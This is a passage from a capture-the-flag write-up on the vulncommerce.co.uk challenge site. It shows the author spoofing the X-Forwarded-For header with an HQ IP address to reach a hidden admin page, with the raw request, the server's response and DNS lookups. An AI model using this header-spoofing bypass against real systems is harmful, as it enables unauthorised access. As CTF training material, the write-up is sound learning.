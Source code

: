 Here's an example of that request and response

```
GET /adm1n-man4gem3nt-12bfb3 HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
X-Forwarded-For: 8.8.17.22
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Thu, 30 Jun 2022 07:25:09 GMT
content-type: text/html; charset=UTF-8
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulncommerce.co.uk
connection: close
Content-Length: 51

Connection from 8.8.17.22,<my-ip> not allowed
```

OK let's consider where I am at the moment, so the profile page for simon gave me a hint with he message

```
There's no username and password for it because the only place you can view it from is HQ (so don't tell anyone else in the office)
```

Also from the discovery earlier in the updates.txt

```
Clients requests first go to the load balancer and will then be forwarded to an available server. We currently only have one server but will add some more soon.
```

So I can only access that page from HQ, which we know about an IP (8.8.17.22) associated with it from the host command

```
└─$ host hq.vulncommerce.co.uk                             
hq.vulncommerce.co.uk has address 8.8.17.22
```

I also have the ping tool which it seems I can ping any public IP, but I can't ping 8.8.17.22 which I have to assume is a internal private range...

And how about the load balancer, I guess that must be the IP behind the main domain vulncommerce.co.uk

```
└─$ host vulncommerce.co.uk   
vulncommerce.co.uk has address 68.183.255.206
vulncommerce.co.uk mail is handled by 10 mx00.ionos.co.uk.
vulncommerce.co.uk mail is handled by 10 mx01.ionos.co.uk.
```
